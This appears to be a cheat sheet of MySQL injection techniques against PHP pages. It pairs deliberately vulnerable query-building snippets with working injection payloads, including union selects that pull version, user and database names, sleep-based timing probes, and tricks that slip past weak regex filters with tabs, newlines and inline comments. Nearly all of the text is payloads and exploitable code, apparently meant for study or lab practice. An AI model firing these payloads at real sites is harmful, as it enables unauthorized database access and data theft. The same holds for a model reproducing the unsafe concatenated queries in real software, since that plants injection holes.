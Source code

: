 #### Example 1

Payload:
```
page.php?name=abc'+or+sleep(1)--+-
page.php?name=abc'+or+true--+-
page.php?name=abc'+union+select+1,2,3,4,5--+-
page.php?name=abc'+union+select+version(),user(),database(),4,5--+-
```

Code:
```php
$sql = "SELECT * FROM users where name='";
$sql .= $_GET["name"]."'";
```

#### Example 2

Payloads:
```
page.php?name[]= (trigger php error for preg_match())
page.php?name=admin'%09%23
page.php?name=admin'%09union%09select%091,2,3,4,5%23
```

Code: 
```php
if (preg_match('/ /', $_GET["name"])) { die("NO SPACES ALLOWED"); }
$sql = "SELECT * FROM users where name='";
$sql .= $_GET["name"]."'";
```

Bypass regex expression for space (%20):
  * hex encoded space-delimiters:
    - TAB %09 (\t)
    - LF  %0a  (\n)
    - CR  %0d  (\n)

#### Example 3

Payloads:
```
page.php?name=admin'%09%23
page.php?name=admin'%09union%09select%091,2,3,4,5%23
page.php?name=admin'/**/or/**/true%23
page.php?name=admin'/**/union/**/select/**/@@version,2,3,4,5%23
```

Code:
```php
if (preg_match('/\s+/', $_GET["name"])) { die("ERROR NO SPACE"); }
$sql = "SELECT * FROM users where name='";
$sql .= $_GET["name"]."'";
```

Bypass regex expression for one or more of any whitespace character (\s+) encountered:
  * C-style comments in MySql (`select/*pwn*/1+1;`)


#### Example 4

Payload:
```
page.php?id=3 or 1=1-- -
page.php?id=-3 union select 1,2,3,4,5-- -
```

Code:
```php
$sql = "SELECT * FROM users where id=";
$sql .= mysql_real_escape_string($_GET["id"])." ";
```

#### Example 5

Payload:
```
page.php?id=3 or 1=1-- -
page.php?id=9999 union select 1,2,3,4,5-- -
```

Code:
```php
if (!preg_match('/^[0-9]+/', $_GET["id"])) { die("ERROR INTEGER REQUIRED"); }
$sql = "SELECT * FROM users where id=";
$sql .= $_GET["id"] ;
```

Bypass regex for input that starts with unsigned integer (^[0-9]+)

#### Example 6

Payload:
```
page.php?id=3 union select 1,2,3,4,5%231
```

Code:
```php
if (!preg_match('/[0-9]+$/', $_GET["id"])) { die("ERROR INTEGER REQUIRED"); }
$sql = "SELECT * FROM users where id=";
$sql .= $_GET["id"];
```

Bypass regex for input that ends with unsigned integer `[0-9]+$`

#### Example 7

Payloads:
```
page.php?id=-1%0aunion select 1,2,3,4,5#      [any_int]\n[injection]
page.php?id=-1 union select 1,2,3,4,5%0a-1    [injection]\n[negative_int]
page.php?id=-1%0aunion select 1,2,3,4,5%0a-1  [any_int]\n[injection]\n[negative_int]
```

Code:
```php
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) { die("ERROR INTEGER REQUIRED"); }
$sql = "SELECT * FROM users where id=";
$sql .= $_GET["id"];
```

Bypass regex where at least one or more lines must start and end with a signed or unsigned int:
  * understanding the regex (/^-?[0-9]+$/m):
  
    - -?     -> zero or one of minus sign (-)
    - [0-9]+ -> one or more digits (from 0 to 9)
    - ^      -> line starts 
    - $      -> line ends
    - m      -> allows multi-lines


#### Example 8

Payloads:
```
page.php?order=id` and sleep(1)-- -
page.php?order=id` desc-- -
page.php?order=id` asc-- -
```

Code:
```php 
$sql = "SELECT * FROM users ORDER BY `";
$sql .= mysql_real_escape_string($_GET["order"])."`";
$result = mysql_query($sql);
```

#### Example 9

Payload:
```
page.php?order=id and sleep(1)-- -
```

Code:
```php
$sql = "SELECT * FROM users ORDER BY ";
$sql .= mysql_real_escape_string($_GET["order"]);
```
